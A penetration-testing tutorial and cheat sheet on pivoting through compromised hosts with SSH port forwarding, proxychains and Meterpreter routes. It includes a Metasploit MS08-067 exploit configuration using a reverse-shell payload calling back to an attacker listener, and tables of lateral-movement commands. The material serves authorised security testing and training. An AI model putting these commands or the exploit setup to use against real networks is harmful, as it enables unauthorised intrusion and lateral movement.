 

# Pivoting on a Penetration Test

## What is Pivoting ?

Pivoting allows a security consultant to use a host compromised during a [pen testing](https://www.aptive.co.uk/penetration-testing/) engagement to route traffic to other hosts or subnets, giving the tester access to other machines that may have previously inaccessible. Typically, a foot hold is established on a target network from successfully exploiting an external machine on a penetration test or from a successful phishing / spear phishing campaign.

This article focuses specifically on pivoting from compromised Linux hosts using SSH and meterpreter pivoting, however the Meterpreter pivoting techniques also apply to Windows targets. 

## SSH Pivoting on Pen Tests 

SSH port forwarding is a reliable method of pivoting for Linux hosts, the draw back being that a new port forwarding rule needs to be created for each port you wish to access the host on. For example, if you discover a host has SMB and RDP exposed you would need to create a SSH port forwarding rule (see example below) for both ports <code>445</code> and <code>3389</code>. Due to this limitation it's often preferred to conduct scanning either from a compromised machine (using a single binary you can remove once testing has completed) or use Dynamic Proxychain forwarding (see example below) for the initial nmap scan to see what's exposed. Although it's additional effort to setup SSH port forwarding, the extra work is worth it as it allows you to have a stable connection while testing. 

<div>
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>ssh -L 9999:10.0.2.2:445 user@192.168.2.250</code></p>
      </td>
      <td>
            <p>SSH port forwarding. Port 9999 locally is forwarded to port 445 on 10.0.2.2 through host 192.168.2.250</p>
      </td>
    </tr>
      <tr>
      <td>
        <p><code>ssh -D 127.0.0.1:9050 root@192.168.2.250</code></p>
      </td>
      <td>
            <p>Proxychains Forwarding - Dynamically allows all port forwards to the subnets availble on the target.</p>
      </td>
    </tr>
      </tbody>
</table>
</div>

## Note on Proxychain port forwards 

Dynamic SSH Proxychain forwarding does not work with meterpreter shells. 

If you attempt to spawn a shell via Meterpreter, you'll get an error similar to the following:


```bash 
meterpreter > execute -f cmd.exe -i -H
|S-chain|-<>-127.0.0.1:9050-<><>-127.0.0.1:41713-<--timeout
``` 

## How to use Proxychain port forwards 

All commands must be prefixed with <code>proxychains</code> in order to route traffic correctly. 

### Example connecting to RDP over Proxychains 

```bash 
proxychains rdesktop TARGET-ADDRESS 
``` 

## Metasploit SSH Pivoting Example 

The following example assumes you have setup the SSH port forward using the instructions above and port: <code>9999</code> is forwarded to 445. The Metasploit module for **MS08_067** is used here to demonstrate how one can set up SSH pivoting within Metasploit itself.

**Attacking Machine:** 192.168.3.99 

```bash
msf exploit(ms08_067_netapi) > show options

 Module options (exploit/windows/smb/ms08_067_netapi):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    RHOST    0.0.0.0          yes       The target address
    RPORT    9999             yes       Set the SMB service port
    SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


 Payload options (windows/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  thread           yes       Exit technique (accepted: seh, thread, process, none)
    LHOST     192.168.3.99     yes       The listen address
    LPORT     443              yes       The listen port

 Exploit target:

    Id  Name
    --  ----
   0   Automatic Targeting
``` 

## Meterpreter Pivoting Cheat Sheet 

If you have successfully compromised a host during a penetration test it's possible to use a Meterpreter shell to pivot to other hosts on the network. Using Meterpreter it's possible to pivot from compromised Windows and Linux targets, however it's typically far less reliable than SSH port forwarding as Meterpreter sessions are more prone to timing out, which will result in the connection being killed. 

<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>portfwd add –l 3389 –p 3389 –r target-host</code></p>
      </td>
      <td>
            <p>Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>portfwd delete  –l 3389 –p 3389 –r target-host</code></p>
      </td>
      <td>
            <p>Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>portfwd flush</code></p>
      </td>
      <td>
            <p>Delete all port forwards</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>portfwd list</code></p>
      </td>
      <td>
            <p>List active port forwards</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>run autoroute -s 192.168.15.0/24</code></p>
      </td>
      <td>
            <p>Run the Autoroute script to automatically add rules to route traffic for the subnet <code>192.168.15.0</code> through the compromised host.</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>run autoroute -p</code></p>
      </td>
      <td>
            <p>List all active routes for the current meterpreter session.</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route</code></p>
      </td>
      <td>
            <p>View available networks the compromised host can access</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route add 192.168.14.0 255.255.255.0 3</code></p>
      </td>
      <td>
            <p>Add route for 192.168.14.0/24 via Session 3.</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route delete 192.168.14.0 255.255.255.0 3</code></p>
      </td>
      <td>
            <p>Delete route for 192.168.14.0/24 via Session 3.</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>route flush</code></p>
      </td>
      <td>
            <p>Delete all Meterpreter routes</p>
      </td>
    </tr>

      </tbody>
</table>

 
## How to Connect to targets using Meterpreter Port Forwards 

The port is forwarded locally to the target. Using RDP as an example, assuming you have setup a meterpreter port forward using the same port for local and remote. You would connect to it using: 

```bash 
rdesktop 127.0.0.1
```

EOF
